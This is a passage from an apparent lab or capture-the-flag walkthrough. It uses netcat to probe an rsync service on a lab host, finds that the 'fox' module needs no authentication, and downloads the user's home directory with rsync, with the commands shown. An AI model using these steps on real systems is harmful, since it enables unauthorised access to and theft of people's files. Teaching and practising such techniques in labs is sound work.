 This indicates that the `fox` module is available. The `fox home` string suggests `fox` may be a user on this system.

### Netcat

Let's try to connect to `rsync` with Netcat.

```
kali@kali:~$ nc -nv 192.168.120.149 873 
@RSYNCD: 31.0

```

The terminal seems to hang. Let's type `@RSYNCD: 31.0` and hit Enter.

```
kali@kali:~$ nc -nv 192.168.120.149 873 
@RSYNCD: 31.0
@RSYNCD: 31.0

```

Let's determine if this module requires authentication by simply entering `fox`.

```
kali@kali:~$ nc -nv 192.168.120.149 873
(UNKNOWN) [192.168.120.149] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
fox
@RSYNCD: OK
^C
kali@kali:~$
```

Great! It appears we can use this module without any authentication.

## Exploitation

### Open Rsync Share

Since the module doesn't require authentication, we can freely download all files inside the `fox` user's _/home/fox_ directory with `rsync`. Before we do that though, we need to switch to another directory so that the downloaded files do not overwrite our own.

```
kali@kali:~$ mkdir rsync-share
kali@kali:~$ cd rsync-share
kali@kali:~/rsync-share$ rsync -av fox@192.168.120.149::fox/ .
receiving incremental file list
./
.bash_history -> /dev/null
.bash_logout
.bashrc
.profile
...
kali@kali:~/rsync-share$ ls -la
total 24
drwxr-xr-x  2 kali kali 4096 Dec  3 15:22 .
drwxr-xr-x 44 kali kali 4096 Jan 19 08:02 ..
lrwxrwxrwx  1 kali kali    9 Dec  3 15:22 .bash_history -> /dev/null
-rw-r--r--  1 kali kali  220 Apr 18  2019 .bash_logout
-rw-r--r--  1 kali kali 3526 Apr 18  2019 .bashrc
...
```

